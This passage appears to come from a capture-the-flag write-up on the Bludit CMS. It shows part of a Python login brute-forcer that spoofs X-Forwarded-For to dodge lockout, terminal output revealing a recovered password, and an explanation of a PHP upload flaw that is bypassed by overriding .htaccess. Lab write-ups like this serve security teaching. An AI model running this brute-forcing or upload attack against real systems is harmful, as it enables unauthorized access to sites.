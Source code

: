         headers = {
            'X-Forwarded-For': password,
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
            'Referer': login_url
        }
    
        data = {
            'tokenCSRF': csrf_token,
            'username': username,
            'password': password,
            'save': ''
        }
    
        login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
    
        if 'location' in login_result.headers:
            if '/admin/dashboard' in login_result.headers['location']:
                print('\rSUCCESS: Password found!' + 50*" ")
                print(f'Use {username}:{password} to login.')
                print()
                break
    

When I run it, it will show whatever password is being attempted at the moment, eventually finding one and printing that and exiting. It takes about 16 seconds:

    root@kali# time ./bludit_brute.py wordlist 
    SUCCESS: Password found!                                                                              
    Use fergus:RolandDeschain to login.
    
    
    real    0m16.018s
    user    0m1.840s
    sys     0m0.253s
    

### PHP Upload Exploit

There’s a Metasploit script that will just run this, but I want to understand what’s happening. There are two issues on GitHub about this, [1079](https://github.com/bludit/bludit/issues/1079) and [1081](https://github.com/bludit/bludit/issues/1081). The first takes advantage of the fact that when a PHP file is uploaded, it is stored in a temporary location before the extension check. If the extension check returns that the file is ok, it is moved to the right location. But if the check returns that it fails, the file is not removed from the knowable temporary location. Code won’t run out of that location due to the file from the root of the project:`.htaccess`

    # Deny direct access to the next directories
    rewriteRule ^bl-content/(databases|workspaces|pages|tmp)/.*$ - [R=404,L]
    

However, I can override that by uploading a new file to that directory.`.htaccess`

The second ([1081](https://github.com/bludit/bludit/issues/1081)) is a criticism of an incomplete fixing of the bug between versions, and as both ticket are closed with “Fixed in Bludit v3.10.0.”, I’ll focus on the first to start.

